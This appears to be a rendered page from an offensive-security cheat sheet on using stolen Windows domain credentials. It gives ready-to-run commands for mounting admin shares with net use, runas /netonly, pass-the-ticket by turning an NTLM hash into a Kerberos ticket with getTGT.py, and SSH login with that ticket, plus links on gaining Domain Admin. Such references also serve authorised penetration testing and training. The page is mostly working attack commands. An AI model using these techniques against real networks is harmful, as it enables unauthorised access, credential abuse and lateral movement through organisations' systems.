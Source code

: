 
## Netuse 

Windows only

```powershell
PS C:\> net use \\ordws01.cscou.lab /user:DOMAIN\username password C$
```

## Runas 

```powershell
PS C:\> runas /netonly /user:DOMAIN\username "cmd.exe"
PS C:\> runas /noprofil /netonly /user:DOMAIN\username cmd.exe
```

## Pass the Ticket

```powershell
python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user
[*] Saving ticket in user.ccache
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
klist
```

## SSH

:warning: You cannot pass the hash to SSH, but you can connect with a Kerberos ticket (Which you can get by passing the hash!

```ps1
cp user.ccache /tmp/krb5cc_1045
ssh -o GSSAPIAuthentication=yes user@domain.local -vv
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)


[DC01]: PS>